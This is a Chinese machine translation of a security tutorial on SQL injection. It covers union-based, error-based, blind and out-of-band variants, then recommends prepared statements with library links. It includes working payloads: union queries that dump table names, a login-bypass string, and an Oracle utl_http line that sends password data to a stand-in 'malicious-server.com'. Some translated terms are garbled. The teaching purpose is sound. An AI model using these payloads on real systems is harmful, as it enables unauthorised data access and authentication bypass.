


# 安全性:防止 SQL 注入(SQLi)

> 原文：<https://infosecwriteups.com/security-preventing-sql-injection-sqli-ade81c5fd092?source=collection_archive---------1----------------------->



PortSwigger

上周我们讨论了[防止跨站点脚本(XSS)](https://medium.com/@mpreziuso/injection-vulnerabilities-cross-site-scripting-xss-7fd9dc28cc47) :一种源于攻击者将恶意代码注入应用程序客户端的能力的漏洞。

本周我们将讨论 SQL 注入攻击:XSS 影响应用程序的客户端，而 SQLi 影响其后端。

*在核心*处，每当应用程序将不受信任的(应用程序从外部接收的任何东西——通常是用户输入数据)**输入注入到 SQL 查询中，使得数据被解释为查询逻辑的一部分时，就会出现一个 SQL 注入漏洞**。****

# 攻击者能做什么？

应用程序只是一些数据的包装:真实存在于数据中，对数据的访问、解释和控制存在于应用程序中。

如果您控制了数据，您就控制了应用程序。

> **访问、更改、删除数据**——自明 **改变一个程序的流程**——通过在一条 SQL 语句中注入额外的 SQL 子句，使其意义发生变化。任何下游代码将接收不同的数据，流程将改变
> **绕过认证**——如上所述，认证可以绕过
> **绕过授权**——如上所述，授权级别可以改变
> **远程代码执行**——在某些情况下，攻击者能够在操作系统上执行命令
> **拒绝服务**——通过请求过多的数据或利用某些数据库的[基准函数](https://mariadb.com/kb/en/benchmark/)。
> **数据库转储**——不言自明。所有数据都会泄露。你有麻烦了。

# SQL 注入攻击的类型

这种注入攻击可以分为:

*   **带内 SQLi** /经典 SQLi:
    子类型:基于联合的 SQLi、基于错误的 SQLi
*   推理 SQLi / **盲 SQLi**
    子类型:基于布尔的盲 SQLi，基于时间的盲 SQLi
*   **带外 SQLi**

# **带内 SQL 注入**

最常见的一类 SQL 注入攻击:带内攻击是指攻击者使用相同的通信渠道发起攻击并获得结果。

## 基于联合的 SQLi

[UNION](https://www.w3schools.com/sql/sql_union.asp) 是一个 SQL 操作符，允许组合两个或多个 [SELECT](https://www.w3schools.com/sql/sql_union.asp) 语句的结果集。



mysqltutorial.org️

在这种类型的攻击中，攻击者利用这种能力执行附加语句作为查询的一部分，并在 HTTP 响应中返回结果。

一般来说，剥削看起来像:

```
GET https://my-vulnerable-site.com/product.php?id=1%20UNION%20SELECT%201%20FROM%20information_schema.tables
-- or --
GET https://my-vulnerable-site.com/product.php?id=1 UNION SELECT 1 FROM information_schema.tables
```

这个例子是特定于 MySQL 的，但是您可以在 Oracle 中通过选择 all_tables 来做同样的事情，等等…

但是这并不容易:因为要合并两个表的结果集，所以模式必须匹配:列数和数据类型必须与原始表的相同。


基于工会的 SQLi:有点像保险箱破解——窃贼中的罗伯特·侯赛因

1.  **找到准确的列数**

```
GET [https://my-vulnerable-site.com/product.php?id=1](https://my-vulnerable-site.com/product.php?id=1) ORDER BY <X>--
```

每次启动“X”并增加 1 可以让您找出原始查询需要多少列:每次尝试您都会看到一些响应，直到您得到一个错误——大致如下:

```
Unknown column 'X' in order by clause
```

这意味着您已经超过了列数。所以 X-1 将是列的精确数目。

2.**找出页面中哪些区域容易受到 SQLi 的攻击**

请记住，最初的查询检索一些数据并将其显示在页面上，通过使用 UNION，我们只是将额外的数据添加到显示在页面上的结果集中。

如果我们像这样运行(一旦我们知道结果集中有 5 列):

```
GET https://my-vulnerable-site.com/product.php?id=1 UNION ALL SELECT 1,2,3,4,5--
```

您会在页面上看到一些数据*和一些数字:* **页面上易受攻击的列的数字！**

这意味着，如果您要用更有用的东西替换一些列号，比如:

```
GET https://my-vulnerable-site.com/product.php?id=1 UNION ALL SELECT 1,2,3,group_concat(table_name),5 FROM information_schema.tables WHERE table_schema = database()--
```

以前在页面上看到“2”的地方，现在可以看到当前数据库的所有表名。

你可以看到这是如何迅速升级的。

## 基于错误的 SQLi

基于错误的 SQLi 基本上就是我们在找到上面的确切列数时所做的和依赖的:攻击者依靠服务器返回的错误来获取和理解数据库结构。

**专业提示**:语言和框架经常允许你在屏幕上显示错误。这在开发应用程序时非常有用，但在生产系统中应该禁用。

# 盲目 SQL 注入

在“带内”攻击中，我们看到攻击者将他们的恶意有效负载发送到服务器，并取回一些数据。

但是，如果服务器没有发回数据，我们称之为盲 SQLi，因为攻击者无法直接看到他们注入尝试的影响。


这并不意味着攻击者无法判断攻击是否成功:这只是不太明显，攻击者需要观察应用程序的行为，以了解他们是否能够改变程序的进程。

## 基于布尔的盲 SQLi

想象一个愚蠢的认证系统:

> **免责声明**:这绝不是你进行认证的方式:不应该使用$_GET，不应该在 SQL 语句中验证密码，不应该按原样验证密码，[你应该散列你的密码](https://medium.com/@mpreziuso/password-hashing-pbkdf2-scrypt-bcrypt-and-argon2-e25aaf41598e)，等等…

我确信免责声明对我的读者来说是不必要的，但我在生产中见过类似的代码！😄

如果您要执行以下请求

```
GET https://my-website.com/login.php?username=admin&password=" or "1"="1
```

SQL 将返回一个大于 0 的计数(假设表不为空)，在应用程序中该计数将被评估为真。
基本上，您将被认证为 *admin* ，因为 SQL 将扩展为:

```
SELECT COUNT(*) FROM user WHERE username = "admin" and password = "" OR "1"="1"
```

它基本上匹配任何用户名为 *admin* 和空密码或……的用户。“任何其他情况”😅。

## 基于时间的盲 SQLi

攻击者发送他的恶意负载，但看不到结果集。

相反，他们必须观察查询返回需要多长时间。基于此，攻击者可以了解注射是否有效。

# 带外 SQLi

只有当数据库具有允许进行 DNS 或 HTTP 请求的某些功能时，这种形式的攻击才会发生。

即使在这种情况下，攻击者也无法在攻击后取回数据。因此，他们不得不求助于 Oracle 的 UTL_HTTP 包或 MSSQL 的 xp_dirtree 命令之类的功能来将结果集发送给自己。

例如，在 Oracle 上，您可以创建一个最终评估为(粗体=恶意输入)的请求:

```
SELECT [some_fields] FROM some_table WHERE field = **SELECT utl_http.request('http://malicious-server.com/?' || (SELECT password FROM users)) FROM DUAL**
```

# 可以做些什么来防止这一切？

很难相信，但答案非常简单:**准备好的报表**。

N 那现在被认为是一种错误的/过时的思维方式。

**预准备语句**是一种用于高效地重复执行相同或相似数据库语句的功能:它们就像您的查询的模板一样工作:

```
SELECT * FROM products WHERE id = ?
SELECT * FROM products WHERE id = @id
-- etc...: different DBMS have a slightly different notation
```

数据库解析、执行、翻译然后存储语句，而不执行它。

只有当应用程序为语句提供值时，这些值才会绑定到语句和检索到的结果集。

因为查询和不可信输入是在不同的时间和不同的上下文中提供的，所以两者不会“混淆”,并且不可信输入不能改变原始查询的含义。

不同的语言和不同的 DBMS 意味着不同的库和稍微不同的使用预准备语句的方式。

我会试着列出每种语言的一些例子。

你的语言/框架不在这个列表中吗？
欢迎留下评论/建议，我会修改列表！

分享就是关心，嗯？😄

## Native — C# (ASP。网)

[系统。Data.SqlClient](https://docs.microsoft.com/en-us/dotnet/api/system.data.sqlclient?view=netframework-4.8) 的 [SqlCommand。准备](https://docs.microsoft.com/en-us/dotnet/api/system.data.sqlclient.sqlcommand.prepare?view=netframework-4.8)

## 本地语— Go (Golang)

[golang.org/pkg/database/sql](https://golang.org/pkg/database/sql)的[分贝。准备](https://golang.org/pkg/database/sql/#DB.Prepare)

## 本机— Java

[java.sql](https://docs.oracle.com/en/java/javase/12/docs/api/java.sql/java/sql/package-summary.html) 的 [PreparedStatement](https://docs.oracle.com/en/java/javase/12/docs/api/java.sql/java/sql/PreparedStatement.html)

## 本机— PHP

[准备好的报表](https://www.php.net/manual/en/mysqli.quickstart.prepared-statements.php)

## node-MySQL 2-JS(NodeJS)

[节点-MySQL2](https://github.com/sidorares/node-mysql2) 的[准备好的报表](https://github.com/sidorares/node-mysql2)

## PGX 围棋(戈朗)

github.com/jackg/pgx 号[号](https://pkg.go.dev/github.com/jackc/pgx)[号控制室准备](https://pkg.go.dev/github.com/jackc/pgx?tab=doc#Conn.Prepare)

## Psycopg — Python

[在 Psycopg 中准备好语句](https://www.psycopg.org/articles/2012/10/01/prepared-statements-psycopg/)